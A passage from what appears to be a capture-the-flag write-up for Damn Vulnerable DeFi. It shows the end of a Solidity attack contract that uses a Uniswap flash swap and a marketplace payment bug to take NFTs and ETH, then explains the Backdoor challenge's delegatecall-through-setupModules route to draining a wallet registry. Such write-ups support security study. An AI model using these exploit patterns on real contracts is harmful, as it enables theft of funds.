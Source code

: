 ```solidity
        
        weth.withdraw(amount0);
        marketplace.buyMany{value: 15 ether}(tokenIds);
        
        weth.deposit{value: 16 ether}();
        weth.transfer(address(pair), uint(16e18));
        
        for(uint256 i=0; i< tokenIds.length; i++) {
            nft.safeTransferFrom(address(this), address(partner), i);
        }

        owner.transfer(address(this).balance);
    }

    function onERC721Received(address, address, uint256 _tokenId, bytes memory) external returns (bytes4) {
        return IERC721Receiver.onERC721Received.selector;
    }

    receive() external payable {}

}
```

In `uniswapV2Call()` function, first withdraw ETH from WETH contract. Secondly, call `buyMany()` function with 15 ETH. As we buy one NFT with 15 ETH, it will return 15 ETH. Since marketplace have 90 ETH balance, marketplace will pay for our purchase. After buy NFTs, we return ETH to Uniswap. Then send NFT to our partner. It will trigger the partner to transfer 45 ETH that was promised. 


- - -
## CTF name: Damn Vulnerable DeFi
### Challenge name: Backdoor 
### Challenge description:
    To incentivize the creation of more secure wallets in their team, someone has deployed a registry of Gnosis Safe wallets. When someone in the team deploys and registers a wallet, they will earn 10 DVT tokens.

    To make sure everything is safe and sound, the registry tightly integrates with the legitimate Gnosis Safe Proxy Factory, and has some additional safety checks.

    Currently there are four people registered as beneficiaries: Alice, Bob, Charlie and David. The registry has 40 DVT tokens in balance to be distributed among them.

    Your goal is to take all funds from the registry. In a single transaction.

- - -

In this challenge, our goal is to take all funds from thie registry. If we look at wallet resigtry contract, it is a proxy callback contract. Also `proxyCreated()` function, the callback function, we can see the parameter `initializer` must be a `GnosisSafe.setup.selector`. Also this setup function is called during `GnosisSafeProxyFactory.createProxyWithCallback()`. When `setup()` function is called, it takes a payload `to` and `data` and etc. The `setupModules()` inside `setup()` function will trigger delegate call to `to` with the `data` as a payload. Here is the vulnerable spot. We can set the module to be our attack contract, and run the `data` payload. Here is the attack contract.
